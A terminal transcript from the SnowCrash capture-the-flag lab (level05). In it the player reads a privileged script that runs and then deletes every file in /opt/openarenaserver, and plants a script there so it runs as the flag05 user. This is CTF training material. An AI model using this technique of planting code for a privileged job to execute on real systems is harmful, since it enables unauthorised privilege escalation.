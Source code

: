 level05@SnowCrash:/rofs/usr/sbin$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
level05@SnowCrash:/rofs/usr/sbin$ cat /usr/sbin/openarenaserver

#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done


level05@SnowCrash:/rofs/usr/sbin$ echo "getflag > /tmp/flag" > /opt/openarenaserver/script.sh
level05@SnowCrash:/rofs/usr/sbin$ chmod +x /opt/openarenaserver/script.sh
level05@SnowCrash:/rofs/usr/sbin$ ls /opt/openarenaserver/script.sh
/opt/openarenaserver/script.sh
